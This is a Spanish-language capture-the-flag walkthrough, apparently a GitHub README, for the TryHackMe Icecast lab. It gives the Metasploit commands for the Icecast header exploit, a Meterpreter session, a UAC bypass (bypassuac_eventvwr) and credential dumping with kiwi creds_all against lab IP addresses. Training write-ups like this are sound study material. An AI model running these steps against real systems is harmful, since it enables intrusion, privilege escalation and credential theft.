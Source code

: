 # Guía Paso a Paso: Explotación de Icecast en TryHackMe

1. Escaneo de Puertos
Antes de lanzar cualquier exploit, es crucial identificar los puertos abiertos y los servicios que se están ejecutando en el sistema objetivo. Para ello, puedes usar herramientas como Nmap.

Paso 1: Ejecuta un escaneo básico de puertos con Nmap:

![](Imagenes/1.png)

![](Imagenes/2.png)

![](Imagenes/3.png)

![](Imagenes/4.png)

![](Imagenes/5.png)

![](Imagenes/Task2.png)

2. Búsqueda del Módulo de Explotación
En esta etapa, buscarás un módulo relacionado con Icecast que se pueda explotar.

![](Imagenes/6.png)

Paso 2: Inicia Metasploit Framework (msf6):
 ```bash
msconsole
```
Paso 3: Busca módulos relacionados con Icecast:
 ```bash
search icecast
```
Esto te muestra un módulo de explotación llamado exploit/windows/http/icecast_header.

![](Imagenes/7.0.png)


3. Configuración del Módulo de Explotación
Ahora, configuraremos el módulo de explotación para apuntar al sistema objetivo.

Paso 4: Selecciona el módulo de explotación:

```bash
use 0
```
 
(El número 0 corresponde al módulo de Icecast que aparece en la lista).

Paso 5: Verifica las opciones del módulo:

 ```bash
show options
```
 
![](Imagenes/7.1.png)

Aquí configurarás los siguientes parámetros:

RHOSTS: La dirección IP del objetivo (10.10.237.61).
RPORT: El puerto del servicio Icecast (8000).
LHOST: Tu dirección IP (10.21.128.154).
Foto aquí

![](Imagenes/7.2.png)

4. Ejecución del Exploit
En esta etapa, lanzamos el exploit para obtener acceso al sistema.

Paso 6: Ejecuta el exploit:

 ```bash
run
```


Esto inicia una sesión Meterpreter en el sistema objetivo.

![](Imagenes/7.3.png)


![](Imagenes/7.4.png)




5. Interacción con la Sesión de Meterpreter
Una vez dentro de la sesión de Meterpreter, puedes realizar varias acciones de reconocimiento y control.

Paso 7: Verifica el usuario actual:

 ```bash
getuid
```

El resultado será algo como Dark-PC\Dark, lo que indica que tienes acceso como ese usuario.

![](Imagenes/7.5.png)

Paso 8: Obtén información del sistema:

 ```bash
sysinfo
```
![](Imagenes/7.6.png)


6. Escalada de Privilegios
Para obtener mayores privilegios en el sistema, utilizamos un módulo que sugiere exploits locales.

Paso 9: Usa el módulo Local Exploit Suggester:

 ```bash
search suggester
use post/multi/recon/local_exploit_suggester
```
![](Imagenes/8.0.png)


Este módulo te sugerirá varios exploits potenciales, como bypassuac_eventvwr.

```bash
set SESSION 1
run
```
![](Imagenes/8.1.png)

Paso 10: Selecciona y ejecuta el exploit bypassuac_eventvwr:

 ```bash
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.21.128.154
run
```
![](Imagenes/8.2.png) 
 
Configuramos

 ![](Imagenes/8.3.png)


Este intento trata de eludir el UAC (User Account Control) para obtener mayores privilegios.

![](Imagenes/9.2.png) 

Paso 11: Verifica si la escalada de privilegios fue exitosa:

 ```bash
getprivs
```
![](Imagenes/8.4.png) 


Ahora Ejecutamos load kiwi

Cargar Kiwi en Meterpreter:
Esto carga la extensión Kiwi en Meterpreter, lo que te da acceso a funciones avanzadas como la extracción de credenciales.

Obtener todas las credenciales almacenadas en el sistema:

`creds_all`

Este comando extrae las credenciales almacenadas en la memoria del sistema objetivo.

Interpretación de los datos extraídos:
+ msv credentials: Contiene los hashes LM, NTLM y SHA1 de la cuenta Dark en el sistema Dark-PC.
+ wdigest credentials: Muestra credenciales en texto claro. En este caso, encontramos la contraseña Password01!.
+ tspkg credentials: También muestra la contraseña en texto claro.
+ kerberos credentials: Contiene credenciales relacionadas con Kerberos.

![](Imagenes/9.3.png)



